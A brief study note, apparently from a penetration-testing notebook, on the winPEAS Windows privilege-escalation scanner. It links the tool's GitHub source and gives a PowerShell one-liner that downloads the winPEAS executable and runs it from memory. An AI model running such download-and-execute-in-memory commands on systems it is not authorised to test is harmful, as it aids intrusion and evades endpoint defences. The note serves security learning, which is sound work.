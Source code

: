 - Github: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe
- WinPeas scans to find Privilege Escalation Paths
	- looks for potential vulnerabilities and weaknesses
	- Knowing how to read output and knowing what's important is the most 'difficult' part
- Main two lines needed to run (refer to github for more): 
```
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```